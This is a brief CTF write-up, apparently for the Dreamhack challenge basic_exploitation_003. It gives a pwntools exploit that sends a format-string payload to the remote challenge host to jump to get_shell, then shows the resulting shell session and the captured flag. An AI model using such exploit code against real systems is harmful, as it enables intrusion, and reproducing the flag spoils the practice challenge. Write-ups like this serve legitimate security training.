 
# exploit
```python
from pwn import *

p=remote("host3.dreamhack.games",23842)
#p=process("./basic_exploitation_003")
#p=gdb.debug("./basic_exploitation_003")
e=ELF("./basic_exploitation_003")
#context.log_level='DEBUG'

get_shell=e.symbols["get_shell"] #0x080491a6

payload=b''
payload+=b'%156c'
payload+=p32(get_shell)

p.send(payload)

p.interactive()
```

---
# 결과
```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/basic_exploitation_003]
└─$ python3 exploit.py 
[+] Opening connection to host3.dreamhack.games on port 23842: Done
[*] '/home/foo1/Desktop/Dreamhack/basic_exploitation_003/basic_exploitation_003'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
ECHO :      i\x86\x0
$ ls
basic_exploitation_003
flag
$ cat flag
DH{4e6e355c62249b2da3b566f0d575007e}[*] Got EOF while reading in interactive
$  
```

